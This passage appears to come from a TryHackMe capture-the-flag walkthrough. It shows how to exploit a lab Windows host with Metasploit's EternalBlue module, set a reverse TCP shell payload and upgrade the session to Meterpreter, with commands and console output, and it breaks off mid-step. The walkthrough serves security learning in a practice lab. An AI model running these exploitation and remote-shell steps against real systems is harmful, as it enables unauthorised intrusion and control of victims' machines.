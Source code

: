 ```
```
It looks like we need to set the RHOST (remote host). We can do this with the following command: 

`set RHOST 10.10.45.116`

Normally this would be enough to exploit as is. However, THM wants us to enter the following command: 

`set payload windows/x64/shell/reverse_tcp`

Now we can run the exploit! Do this by simply entering the `run` or `exploit` command. 
Make sure the exploit ran correctly. Then, background the shell by using `CTRL + Z` and entering `y` and press ENTER.
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1645753962296/RauAcwT44.png)

### Escalate
Now we'll escalate privileges!

In this task, THM wants us to research online how to convert a shell to a meterpreter shell in metasploit. Let's get googling! I looked up `shell to meterpreter` in google and first result shows how to upgrade a normal shell to a meterpreter shell! 

After reading through, it looks like we should run the following command in **Metasploit**: 

`search shell_to_meterpreter`
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
```
Let's select this module and see what our options are that we need to change. 
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```
It looks like we'll need to set the session. So, let's check our sessions. 
```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.49.123:4444 -> 10.10.45.116:49293 (10.10.45.116)
```
We'll set our session option to 1 using the following command: 
